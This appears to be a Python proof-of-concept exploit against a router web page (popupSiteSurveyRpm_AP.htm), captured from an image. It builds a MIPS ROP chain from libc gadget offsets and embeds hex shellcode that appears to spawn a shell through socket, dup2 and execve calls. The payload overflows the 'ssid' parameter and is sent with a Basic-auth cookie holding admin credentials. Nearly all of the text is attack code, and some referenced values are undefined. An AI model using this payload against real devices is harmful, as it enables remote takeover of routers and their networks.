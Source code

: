```python
#LOAD:0000E910                 addiu   $a0, (aErrorNetrcFile+0x28 - 0x60000)  
g4=0x00374D8  
#LOAD:000374D8                 move    $t9, $a1  
#LOAD:000374DC                 sw      $v0, 0x4C($a0)  
#LOAD:000374E0                 move    $a1, $a2  
#LOAD:000374E4                 jr      $t9  
#LOAD:000374E8                 addiu   $a0, 0x4C  # 'L'  
  
shellcode="\x24\x0e\xff\xfd\x01\xc0\x20\x27\x01\xc0\x28\x27\x28\x06\xff\xff"  
shellcode+="\x24\x02\x10\x57\x01\x01\x01\x0c\xaf\xa2\xff\xff\x8f\xa4\xff\xff"  
shellcode+="\x34\x0e\xff\xff\x01\xc0\x70\x27\xaf\xae\xff\xf6\xaf\xae\xff\xf4"  
shellcode+="\x34\x0f\xd8\xf0\x01\xe0\x78\x27\xaf\xaf\xff\xf2\x34\x0f\xff\xfd"  
shellcode+="\x01\xe0\x78\x27\xaf\xaf\xff\xf0\x27\xa5\xff\xf2\x24\x0f\xff\xef"  
shellcode+="\x01\xe0\x30\x27\x24\x02\x10\x4a\x01\x01\x01\x0c\x8f\xa4\xff\xff"  
shellcode+="\x28\x05\xff\xff\x24\x02\x0f\xdf\x01\x01\x01\x0c\x2c\x05\xff\xff"  
shellcode+="\x24\x02\x0f\xdf\x01\x01\x01\x0c\x24\x0e\xff\xfd\x01\xc0\x28\x27"  
shellcode+="\x24\x02\x0f\xdf\x01\x01\x01\x0c\x24\x0e\x3d\x28\xaf\xae\xff\xe2"  
shellcode+="\x24\x0e\x77\xf9\xaf\xae\xff\xe0\x8f\xa4\xff\xe2\x28\x05\xff\xff"  
shellcode+="\x28\x06\xff\xff\x24\x02\x0f\xab\x01\x01\x01\x0c"  
  
s0=p32(0x11111111)  
s1=p32(g2+libc_base) # break   
s2=p32(sleep+libc_base)  
  
payload= "/%0A"*0x55 +2*'x'+s0 +s1 +s2  
payload+=p32(g1+libc_base)    
payload+='x'*28  
payload+=p32(g4+libc_base) #s1  
payload+=p32(0x33333333) #s2  
payload+=p32(g3+libc_base) #ra  
payload+='x'*24  
payload+=shellcode  
  
  
  
def exp(path,cookie):  
    headers = {  
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",  
                "Cookie":"Authorization=Basic{cookie}".format(cookie=str(cookie))}  
  
    params = {  
        "mode":"1000",  
                "curRegion":"1000",  
                "chanWidth":"100",  
                "channel":"1000",  
                "ssid":urllib.unquote(payload)  
        }  
    url="http://10.211.55.8:80/{path}/userRpm/popupSiteSurveyRpm_AP.htm".format(path=str(path))  
    resp = session.get(url,params=params,headers=headers,timeout=10)  
    print (resp.text)  
  
exp("FMHSNOEAAJAKZBNA","%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D")
```
